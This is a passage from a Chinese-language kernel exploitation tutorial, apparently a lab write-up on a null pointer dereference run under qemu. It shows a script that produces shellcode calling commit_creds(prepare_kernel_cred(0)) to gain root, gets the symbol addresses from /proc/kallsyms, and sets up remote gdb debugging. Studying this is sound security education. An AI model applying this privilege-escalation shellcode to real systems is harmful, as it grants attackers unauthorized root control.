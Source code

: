 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>（此处再重复）因为我很懒所以我又写了个脚本：</font></br>

```python
import binascii
import sys

if __name__ == '__main__':

	result=''
	opcode=''
	for i in sys.argv[1:]:
		result+=binascii.a2b_hex(i)
	
	for i in result:
		opcode+='\\x'+hex(ord(i))[2:]

	print opcode

```

```shell
➜  shellcode python getopcode.py 31c0e8b9 7f06c1e8 147e06c1 c3
\x31\xc0\xe8\xb9\x7f\x6\xc1\xe8\x14\x7e\x6\xc1\xc3
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这就能得到我们最终的shellcode了，等等，这两个call的绝对地址是怎么来的？为什么是这两个函数？</font></br>

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>在kernel中，给进程赋予root权限就是用prepare_kernel_cred()函数，参数用0表示root，然后commit_creds函数就是相当于提交凭证，就可以完成提权了，在我们用qemu生成的内核虚拟机的终端中用**grep prepare_kernel_cred /proc/kallsyms**就可以得到这些地址了（**前提是内核未开启地址泄漏保护**），同理也可以得到commit_creds函数的地址：</font></br>

```shell
/ # grep prepare_kernel_cred /proc/kallsyms 
c1067fc0 T prepare_kernel_cred
c15fcf3c r __ksymtab_prepare_kernel_cred
c1606504 r __kcrctab_prepare_kernel_cred
c160d1f9 r __kstrtab_prepare_kernel_cred
/ # grep commit_creds /proc/kallsyms 
c1067e20 T commit_creds
c11bc6f0 T security_commit_creds
c15fcf5c r __ksymtab_commit_creds
c1606514 r __kcrctab_commit_creds
c160d235 r __kstrtab_commit_creds
/ # 
```



**remote gdb**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>之前我们开启qemu虚拟机的时候用了-s参数开启了远程调试端口，所以我们只需要用**gdb的target remote：1234就能attach上去了**，还有一些要注意的是gdb要选取**linux kernel文件夹下的vmlinux作为调试文件**。然后最好添加**symbol文件**方便直接下断点，后面要跟一个模块基地址，基地址可以在insmod安装之后用这个命令取得：</font></br>

```shell
/mytest # cat /proc/modules 
null_dereference 725 0 - Live 0xc8831000 (P)
```

